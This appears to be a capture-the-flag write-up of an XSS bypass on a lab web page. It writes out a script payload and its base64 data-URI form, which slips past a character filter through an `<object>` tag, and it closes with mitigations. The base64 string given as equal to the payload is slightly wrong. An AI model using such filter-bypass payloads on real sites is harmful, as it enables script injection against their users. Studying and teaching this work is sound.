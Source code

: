 ```
http://{IP_ADDRESS}/?page=media&src=nsa
```

When we inspect the site, we see this in the nsa image;

```html
<object data="http://192.168.193.129/images/nsa_prism.jpg"></object>
```

So, what we understand from this is that whatever we enter for the src value, that value is sent to the server.
Our payload is classic:

```html
<script>alert(1)</script>
```
But it doesn't work when we write it directly.
For this reason, we use;
```
data:content/type;base64,
```

in the form of DataUri + base64.

```
<script>alert(1)</script>  == PHNjcmlwdD5hbGVydCgxKTxzY3JpcHQ+
```

We convert it to Base64.
This way, we will tell the browser that this is text/html and have it decode and embed it into the site.

```
data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTxzY3JpcHQ+
```

So, we can get the flag.

# How did this Vulnerability work?

With Base64, we were able to bypass the filters that the website blocked, like (`<`, `>`, `'`, `"`).
To avoid breaking the HTML data, we injected **<script>alert(1)</script>** using base64.

# How can we avoid this Vulnerability?

1.  **Content Security Policy**: Set strict CSP headers
2.  **Input Validation**: Validate `src` against allowed patterns
3.  **Avoid dynamic `<object>` tags**: Use safer HTML elements (like `<img>` for images)
